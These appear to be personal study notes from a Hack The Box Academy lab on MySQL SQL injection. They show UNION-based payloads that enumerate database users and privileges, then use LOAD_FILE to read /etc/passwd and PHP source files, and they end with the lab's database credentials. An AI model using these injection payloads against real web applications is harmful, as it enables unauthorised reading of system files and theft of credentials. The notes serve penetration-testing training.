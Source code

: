 in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

#### DB User
>While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

#### User Privileges
```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

![[nto0xppf.png]]


>?`Y`, which means `YES`, indicating superuser privileges.

more dumping:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files.



## LOAD_FILE
`LOAD_FILE()` function.
```sql
SELECT LOAD_FILE('/etc/passwd');
```
Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

## Another Example
We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
config.php
search for  uncluded codes
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

The HTML source can be viewed by hitting `[Ctrl + U]`.
![PHP code snippet for querying a database. It checks if 'port_code' is set, constructs a SQL query to select from 'ports' where code matches, executes the query, and fetches results](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)


>`The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.`


'DB_USERNAME'=>'root',
'DB_PASSWORD'=>'dB_pAssw0rd_iS_flag!',
'DB_DATABASE'=>'ilfreight'

